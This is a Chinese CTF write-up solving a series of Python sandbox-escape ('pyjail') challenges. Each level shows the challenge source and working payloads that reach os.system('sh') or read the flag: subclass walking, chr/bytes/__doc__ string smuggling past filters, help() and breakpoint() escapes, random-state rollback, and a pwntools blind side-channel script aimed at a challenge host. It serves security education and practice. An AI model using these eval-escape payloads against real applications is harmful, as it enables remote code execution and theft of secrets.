




# 0x01 Week1

#### 1.calc_jail_beginner

题目给了远程代码

```py
input_data = input("> ")
print('Answer: {}'.format(eval(input_data)))
```

> PayLoad：
>
> `__import__('os').system('cat flag')` 
>
> `print(open('flag').read())`
>
> `__import__('os').system('sh')`  # 交互式shell

#### 2. calc_jail_beginner_level1

```py
#the function of filter will banned some string ',",i,b,`
#it seems banned some payload 
#Can u escape it?Good luck!

def filter(s):
    not_allowed = set('"\'`ib')
    return any(c in not_allowed for c in s)
input_data = input("> ")
if filter(input_data):
    print("Oh hacker!")
    exit(0)
print('Answer: {}'.format(eval(input_data)))
```

过滤了单引号、双引号、反撇号、字符i和b

`__import__`和`__builtins__`用不了了，除非经过编码再解码

解法1：套一层eval，执行字符串用chr()拼接，省去了引号
```python
# eval("__import__('os').system('sh')")
payload = "__import__('os').system('sh')"
res = 'eval('
for i in payload:
    res += 'chr(' + str(ord(i)) + ')+'
res = res.rstrip('+') + ')'
print(res)
```

解法2：读文件，文件路径用chr()拼接

> #eval出的结果有回显
> open('flag').read() 
> open(chr(102)+chr(108)+chr(97)+chr(103)).read()
> 不足：需要知道/猜到flag的路径

解法3：寻找子类

> `().__class__.__base__.__subclasses__()`
>
> 由于过滤了b，使用`getattr()`和`chr()`拼接绕过

> `__base__`：
> chr(95)+chr(95)+chr(98)+chr(97)+chr(115)+chr(101)+chr(95)+chr(95)
>
> `__subclasses__`：
> chr(95)+chr(95)+chr(115)+chr(117)+chr(98)+chr(99)+chr(108)+chr(97)+chr(115)+chr(115)+chr(101)+chr(115)+chr(95)+chr(95)

```py
getattr(getattr(().__class__,__base__),__subclasses__)()
```

这样就获取到了object基类的所有子类
发现倒数第四个类为`<class 'os._wrap_close'>`

```python
getattr(getattr(getattr(getattr(().__class__,__base__),__subclasses__)()[-4],__init__),__globals__)['system']('sh')
```

上面引号处和被ban字符处换成chr拼接即可

#### 3. calc_jail_beginner_level2

```py
#the length is be limited less than 13
#it seems banned some payload 
#Can u escape it?Good luck!
input_data = input("> ")
if len(input_data)>13:
    print("Oh hacker!")
    exit(0)
print('Answer: {}'.format(eval(input_data)))
```

显然直接使用`__import__('os').system('sh')`超出了长度限制
PHP的RCE中有一种参数逃逸的手法，如：`/?cmd=system($_POST[1]);&1=ls`
SSTI中也存在，可以利用request.args或request.cookies获取参数，以此逃过黑名单
下面的方法有着异曲同工之妙

仿照服务端程序执行代码的逻辑：获取我们的input，放入eval执行
我们同样可以再套一层，`eval(input())`

#### 4. calc_jail_beginner_level3

```py
input_data = input("> ")
if len(input_data)>7:
    print("Oh hacker!")
    exit(0)
res = eval(input_data)
print('Answer: {}'.format(res))
```

限制了payload长度不大于7
解：在python交互式终端中，可以通过`help`函数来RCE
输入`help()`之后，当输入一些函数/内置库/关键字等之后，会获得一个pager
这个pager默认是less的，因此可以将感叹号后面的**输入解释为命令并执行**
再输入`!sh`进入shell

#### 5. python2 input

```py
input_data = input("> ")
print input_data
```

- 在python 2中，`input`函数从标准输入接收输入，并且自动`eval`求值，返回求出来的值；
- 在python 2中，`raw_input`函数从标准输入接收输入，返回输入字符串；

实际上，可以认为
python 2 `input()` = python 2 `eval(raw_input())` = python 3 `eval(input())`

#### 6. calc_jail_beginner_level2.5

```py
#the length is be limited less than 13
def filter(s):
    BLACKLIST = ["exec","input","eval"]
    for i in BLACKLIST:
        if i in s:
            print(f'{i!r} has been banned for security reasons')
            exit(0)
input_data = input("> ")
filter(input_data)
if len(input_data)>13:
    print("Oh hacker!")
    exit(0)
print('Answer: {}'.format(eval(input_data)))
```

要求输入不超过13，发现help()不好用了

解：breakpoint() 进入Pdb里面
pdb 模块定义了一个交互式源代码调试器，用于 Python 程序。它支持在源码行间设置（有条件的）断点和单步执行，检视堆栈帧，列出源码列表，以及在任何堆栈帧的上下文中运行任意 Python 代码。它还支持事后调试，可以在程序控制下调用。

#### 7. lake lake lake

```py
fake_key_var_in_the_local_but_real_in_the_remote = "[DELETED]"
def func():
    code = input(">")
    if(len(code)>9):
        return print("you're hacker!")
    try:
        print(eval(code))
    except:
        pass

def backdoor():
    print("Please enter the admin key")
    key = input(">")
    if(key == fake_key_var_in_the_local_but_real_in_the_remote):
        code = input(">")
        try:
            print(eval(code))
        except:
            pass
    else:
        print("Nooo!!!!")
input_data = input("> ")
if(input_data == "1"):
    func()
    exit(0)
elif(input_data == "2"):
    backdoor()
    exit(0)
else:
    print("not found the choice")
    exit(0)
```

key变量是全局变量，所以便可以用`globals()`来泄露所有全局变量的值。

选择1，输入`globals()`拿到key值

选择2，输入key值进行RCE

#### 8. l@ke l@ke l@ke

```py
fake_key_var_in_the_local_but_real_in_the_remote = "[DELETED]"

def func():
    code = input(">")
    if(len(code)>6):
        return print("you're hacker!")
    try:
        print(eval(code))
    except:
        pass

def backdoor():
    print("Please enter the admin key")
    key = input(">")
    if(key == fake_key_var_in_the_local_but_real_in_the_remote):
        code = input(">")
        try:
            print(eval(code))
        except:
            pass
    else:
        print("Nooo!!!!")
        input_data = input("> ")
if(input_data == "1"):
    func()
    exit(0)
elif(input_data == "2"):
    backdoor()
    exit(0)
else:
    print("not found the choice")
    exit(0)
```

payload长度受限，只能用help()
但这道题的help()做了点改动，不能RCE

注意到help的前言

> Enter the name of any module, keyword, or topic to get help on writing Python programs and using Python modules. To quit this help utility and return to the interpreter, just type "quit".
>
> To get a list of available modules, keywords, symbols, or topics, type "modules", "keywords", "symbols", or "topics". Each module also comes with a one-line summary of what it does; to list the modules whose name or summary contain a given string such as "spam", type "modules spam".

如果输入`__main__`，就能得到当前模块的帮助，当然包括全局变量，拿到key

由于脚本文件名字是叫`server.py`，所以我们也可以输入模块名`server`来得到模块信息

95c720690c2c83f0982ffba63ff87338

# Week2

#### 1. calc_jail_beginner_level5

没有给远程代码了



直接试试`__import__('os').system('sh')`，居然直接拿到shell了，顺便抠一下源码

```py
# server.py
import load_flag

flag = load_flag.get_flag()

def main():
    repl()


def repl():
    my_global_dict = dict()
    my_global_dict['my_flag'] = flag
    input_code = input("> ")
    complie_code = compile(input_code, '<string>', 'single')
    exec(complie_code, my_global_dict)

if __name__ == '__main__':
    main()
```

```py
# load_flag.py
class secert_flag(str):
    def __repr__(self) -> str:
        return "DELETED"
    def __str__(self) -> str:
        return "DELETED"

class flag_level5:
    def __init__(self, flag: str):
        setattr(self, 'flag_level5', secert_flag(flag))

def get_flag():
    with open('flag') as f:
        return flag_level5(f.read())
```

#### 2. laKe laKe laKe

```py
import random
from io import StringIO
import sys
sys.addaudithook

BLACKED_LIST = ['compile', 'eval', 'exec', 'open']

eval_func = eval
open_func = open

for m in BLACKED_LIST:
    del __builtins__.__dict__[m]


def my_audit_hook(event, _):
    BALCKED_EVENTS = set({'pty.spawn', 'os.system', 'os.exec', 'os.posix_spawn','os.spawn','subprocess.Popen'})
    if event in BALCKED_EVENTS:
        raise RuntimeError('Operation banned: {}'.format(event))

def guesser():
    game_score = 0
    sys.stdout.write('Can u guess the number? between 1 and 9999999999999 > ')
    sys.stdout.flush()
    right_guesser_question_answer = random.randint(1, 9999999999999)
    sys.stdout, sys.stderr, challenge_original_stdout = StringIO(), StringIO(), sys.stdout

    try:
        input_data = eval_func(input(''),{},{})
    except Exception:
        sys.stdout = challenge_original_stdout
        print("Seems not right! please guess it!")
        return game_score
    sys.stdout = challenge_original_stdout

    if input_data == right_guesser_question_answer:
        game_score += 1
    
    return game_score

def main():
    game_score = guesser()
    if game_score == 1:
        print('you are really super guesser!!!!')
        print(open_func('flag').read())
    else:
        print('Guess game end!!!')

if __name__ == '__main__':
    sys.addaudithook(my_audit_hook)
    main()
```

python 3.8将audit hook机制引入了`sys`模块：机制引入的本意是给沙箱执行提供安全保障。

这里只需要正确得到随机数，就能得到flag了；而此处随机数的生成是采用`random.randint`来产生的。python的`random`模块使用梅森旋转法来生成随机数。由于程序未限制我们拿到`random`模块，所以我们可以先拿到`random`模块，再`random.getstate()`拿到随机数生成器的状态，再通过`random.setstate()`置随机数生成器状态为生成随机数之前的状态，最后`random.randint`生成一模一样的随机数。

需要考虑两个问题：

1. 上述过程势必涉及多条语句的执行，但是pyjail只提供了一行`eval`，如何解决？
2. 如何恢复生成随机数之前的状态？

python 3.8还引入了[海象运算符](https://zhuanlan.zhihu.com/p/67192546)`:=`
在表达式左侧应用海象运算符，可以将该表达式的值赋给某个变量。另外，我们还可以用一个list来装这些表达式，这样表达式的值就会从左至右依次计算

`random`中所有的随机数调用方法都是依赖于`getrandbits(32)`，这就是梅森旋转法的应用：每次产生32bit随机数，每产生624次随机数就转一转

如果我们一开始`import random`并打印`random.getstate`的话，我们会发现内容为一个tuple：

```py
(3, (..., 624), None)
```

第一个取值`3`和第三个取值`None`都是固定的

payload

```py
[random:=__import__('random'), state:=random.getstate(), pre_state:=list(state[1])[:624], random.setstate((3,tuple(pre_state+[0]),None)), random.randint(1, 9999999999999)][-1]
```

#### 3. byte command

没有给源码
只有4bytes，盲猜是直接用`os.system(input())`执行命令的
直接输个sh

```py
input_data = input("> ")
if len(input_data)>4:
    print("Oh hacker!")
    exit(0)
print('Answer: {}'.format(os.system(input_data)))
```

web中有长度限制的RCE
https://xiaolong22333.top/index.php/archives/201/

#### 4. calc_jail_beginner_level5.1

没有给源码


import被ban了


open被ban了


还是从头开始找os

发现`<class 'os._wrap_close'>`在倒数第六个
`().__class__.__base__.__subclasses__()[-6].__init__.__globals__['system']('sh')`

```py
import load_flag

BLACKLIST = ['__loader__', '__import__', 'compile', 'eval', 'exec', 'open','print']

exec_func = exec
compile_func = compile
print_func = print

for k in BLACKLIST:
    del __builtins__.__dict__[k]

del __loader__, __builtins__

flag = load_flag.get_flag()

def main():
    repl()
    
def repl():
    my_global_dict = dict()
    my_global_dict['my_flag'] = flag
    input_code = input("> ")
    complie_code = compile_func(input_code, '<string>', 'single')
    exec_func(complie_code, my_global_dict)

if __name__ == '__main__':
    main()
```

#### 5. lak3 lak3 lak3

```py
import random
from io import StringIO
import sys
sys.addaudithook

BLACKED_LIST = ['compile', 'eval', 'exec']

eval_func = eval
open_func = open

for m in BLACKED_LIST:
    del __builtins__.__dict__[m]


def my_audit_hook(event, _):
    BALCKED_EVENTS = set({'pty.spawn', 'os.system', 'os.exec', 'os.posix_spawn','os.spawn','subprocess.Popen','code.__new__','function.__new__','cpython._PySys_ClearAuditHooks','open'})
    if event in BALCKED_EVENTS:
        raise RuntimeError('Operation banned: {}'.format(event))

def guesser():
    game_score = 0
    sys.stdout.write('Can u guess the number? between 1 and 9999999999999 > ')
    sys.stdout.flush()
    right_guesser_question_answer = random.randint(1, 9999999999999)
    sys.stdout, sys.stderr, challenge_original_stdout = StringIO(), StringIO(), sys.stdout

    try:
        input_data = eval_func(input(''),{},{})
    except Exception:
        sys.stdout = challenge_original_stdout
        print("Seems not right! please guess it!")
        return game_score
    sys.stdout = challenge_original_stdout

    if input_data == right_guesser_question_answer:
        game_score += 1
    
    return game_score

def main():
    print(WELCOME)
    print('Welcome to my guesser game!')
    game_score = guesser()
    if game_score == 1:
        print('you are really super guesser!!!!')
        print('flag{fake_flag_in_local_but_really_in_The_remote}')
    else:
        print('Guess game end!!!')

if __name__ == '__main__':
    sys.addaudithook(my_audit_hook)
    main()
```

还是随机数

#### 6. tyPe Ch@nnEl

远程代码

```python
MY_FLAG = "NSSCTF{fake_flag_in_local_but_really_in_The_remote}"
BLACED_KLIST = '"%&\',-/_:;@\\`{|}~*<=>[] \t\n\r'

def my_safe_check(n):
    return all(ord(m) < 0x7f for m in n) and all(m not in n for m in BLACED_KLIST)

def my_safe_eval(m, my_func):
    if not my_safe_check(m):
        print("Hacker!!!!")
    else:
        try:
            print(eval(f"{my_func.__name__}({m})", {"__builtins__": {my_func.__name__: my_func}, "flag": MY_FLAG}))
        except:
            print("Try again!")

if __name__ == "__main__":
    my_safe_eval(input("Payload:"), type)
```

> ```py
> ((1)if(type(flag.split())(flag.encode()).pop({pos})^{val})else(True))
> ```

> ```python
> print(type(flag.split()))  # <class 'list'>
> type(flag.split())(flag.encode())  => list(flag.encode)
> ```

把flag转化为`bytes`，然后再变成`list`，这样`list`的每一位就是ASCII码值

用list的pop方法获取对应位置的元素（因为中括号被ban了），再和我们的值异或（等号被ban了，用异或），若相等则进入else 返回True，最后经过type得到bool，否则返回1，经过type得到int

侧信道盲注

```python
from pwn import *
from tqdm import trange

class Gao:
    def __init__(self):
        self.known = ''
    
    def init(self):
        self.conn = remote('1.14.71.254', 28563)
    
    def gao(self):
        payload = '((1)if(type(flag.split())(flag.encode()).pop({pos})^{val})else(True))'
        i = len(self.known)
        while True:
            for j in trange(32, 128):
                cur_payload = payload.format(pos=i, val=j)
                self.init()
                self.conn.sendlineafter('Payload:', cur_payload)
                s = self.conn.recvline()
                self.conn.close()
                if (b'Try' in s):
                    return
                elif (b'bool' in s):
                    self.known += chr(j)
                    print(self.known)
                    break
            else:
                raise Exception('GG simida')            
            i += 1

if __name__ == '__main__':
    g = Gao()
    g.gao()
```

#### 7.calc_jail_beginner_level4

远程代码

```py
#Try to read file ./flag

BANLIST = ['__loader__', '__import__', 'compile', 'eval', 'exec', 'chr']

eval_func = eval

for m in BANLIST:
    del __builtins__.__dict__[m]

del __loader__, __builtins__

def filter(s):
    not_allowed = set('"\'`')
    return any(c in not_allowed for c in s)

input_data = input("> ")
if filter(input_data):
    print("Oh hacker!")
    exit(0)
print('Answer: {}'.format(eval_func(input_data)))
```

还是溯源到object去找os模块

> ```py
> ().__class__.__base__.__subclasses__()
> ```

发现`<class 'os._wrap_close'>`在倒数第四个

> ```py
> ().__class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('sh')
> ```

这里由于把引号啥的都禁了，需要改一下payload

法一：利用`bytes`的ASCII list初始化方式

> ```py
> ().__class__.__base__.__subclasses__()[-4].__init__.__globals__[bytes([115, 121, 115, 116, 101, 109]).decode()](bytes([115, 104]).decode())
> ```

若bytes被删了，还是溯源到object在子类找bytes（假如第7个子类是bytes）

```py
().__class__.__base__.__subclasses__()[-4].__init__.__globals__[().__class__.__base__.__subclasses__()[6]([115, 121, 115, 116, 101, 109]).decode()](().__class__.__base__.__subclasses__()[6]([115, 104]).decode())
```

法二：默认类（如`str`、`dict`、`list`等）均有相对应的文档。此时我们可以从`__doc__`里面去找，用索引的方式得到想要的字符，并拼接在一起，得到我们想要的字符串

如`().__doc__`为下：

>  Built-in immutable sequence.....

> `().__doc__.find('s')  # 19`

```py
().__class__.__base__.__subclasses__()[-4].__init__.__globals__[().__doc__[19]+().__doc__[86]+().__doc__[19]+().__doc__[4]+().__doc__[17]+().__doc__[10]](().__doc__[19]+().__doc__[56])
```

法三：直接读flag，放弃RCE

> open('flag').read()

仿造上面的方法修改payload

